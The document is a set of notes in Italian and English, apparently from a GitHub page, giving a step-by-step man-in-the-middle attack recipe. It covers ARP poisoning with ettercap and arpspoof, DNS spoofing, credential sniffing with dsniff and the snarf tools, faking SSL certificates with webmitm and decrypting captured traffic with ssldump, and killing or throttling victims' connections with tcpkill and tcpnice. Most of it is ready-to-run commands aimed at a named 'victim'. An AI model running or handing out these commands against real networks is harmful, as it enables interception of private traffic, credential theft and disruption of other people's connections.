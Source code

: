 #  MITM - Man in the middle sniffing


## sysctl

To displays all the output(parameters):
`sysctl -a`

To do changes with the appropriate command:
`sudo sysctl -w parameter=value`

For example:
`sudo sysctl -w net.ipv4.ip_forward=1`

To load the value into kernel and become live:
`sysctl -a`


## ettercap - mitm

Non c'è bisogno di abilitare l'inoltro ip ma basta semplicemente eseguire il comando
dopo la config di /etc/etter.conf

`sudo ettercap -Tqi wlan0 -M arp:remote /VICTIM/ /GW/`

ATTENZIONE: Non provare SSL utilizando il bridged mode in quanto non funziona.
ATTENZIONE: Non usare ip_forward=1 in quanto si rischierebbe di inviare duplicati(Vedere la descrizione di man ettercap per ulterior dettagli).
ATTENZIONE: Assicurarsi di avere installato iptables altrimenti non funzionerebbe il forward.

To check if ARP poison is working well try:
`arp -a`



## ettercap - dns_spoof

Modifica il file /usr/share/ettercap/etter.dns inserendo una regola del tipo:
* A 127.0.0.1 per inoltrare tutti i dns al localhost
Attivare il plugin dns_spoof


## ettercap - remote_browser

Serve per conoscere le pagine visitate dall'utente.
Specificare il browser da usare su /etc/etter.conf



## man in the middle (mitm)

Per abilitare l'inoltro dei pacchetti fare in questo modo (da non utilizzare con il comando fragrouter):
`echo 1 > /proc/sys/net/ipv4/ip-forward`

Se non funziona provare:
`sudo sysctl -w net.ipv4.ip_forward=0`


La prima operazione da fare è il comando arpspoof. Consideriamo i seguenti IP: IP_VICTIM è l'IP della vittima e IP_SERVER.
I comandi da eseguire sono:
`arpspoof -t IP_VICTIM IP_SERVER`
 e 
`arpspoof -t IP_SERVER IP_VICTIM`


La successiva operazione è fare in modo che il mitm possa inoltrare effettivamente i pacchetti in transito:
`fragrouter -B1`




## sniffing

Questa è un operazione che va fatta una volta che il pc è in mitm!!
Il comando capace di sniffare user e pass di moltissimi protocolli è:
`dsniff -i eth0 -md`

L'opzione -m consente il controllo automatico dei protocolli e -d è il debugging mode.
Un'altro comando che spesso viene adoperato è:
`ngrep host IP`

Dove IP è l'indirizzo IP della vittima.

Gli comandi di sniffing sono:
Sniffa mail e li pone in output ben formattati:
`mailsnarf`

Sniffa URL:
`urlsnarf`

Sniffa messaggi su IRC, MSN etc:
`msgsnarf`

Sniffa file su NFS:
`filesnarf`

Manda gli URL sniffati al proprio browser locale:
`webspy`




## SSL mitm

Questa è un operazione che va fatta una volta che il pc è in mitm!!
Questa procedura consente di ottenere falsificare i certificati che vengono trasmessi via HTTP, POP, SMTP o qualunque altro protocollo che si poggia sul SSL.
La prima operazione è redirezionare il traffico HTTP/HTTPS tramite:
`dnsspoof`

Successivamente occorre falsificare il certificato tramite il comando:
`webmitm`

A questo punto il comando webmitm restituirà il falso certificato (webmitm.crt) che potrà essere utilizzato per decifrare il traffico SSL sniffato tramite wireshark (ethereal) e posto in un file.
Quindi:
`ssldump -r ozzy -k webmitm.crt -d > outozzy`

con -r specifichiamo il dumpfile, -k è la chiave, -d indica di decifrare i dati
Rimane solo da interpretare i dati ormai decifrati:
`cat outozzy | grep ??`

In grep si può mettere qualcosa che possa filtrare i dati in modo da ottenere più facilmente i dati sensibili. Per esempio si può inserire il nome di qualche tag html vicino ai dati sensibili.




## kill and slow down connection with tcpkill and tcpnice

Se vogliamo chiudere le connessioni TCP su porta 22 (SSH):
`tcpkill -i eth0 tcp port 22`

If you want to kill all the connections but not for a pecified host:
`sudo tcpkill -i wlan0 -9 not host 192.168.1.109`

Se vogliamo rallentare una connessione TCP iniettando pacchetti che avvisano di una finestra di ricezione piccola o pacchetti ICMP:
`tcpnice -i eth0 tcp port 22`

To slow down all the connection but not for a specified host:
`sudo tcpnice -i wlan0 not host 192.168.1.109`




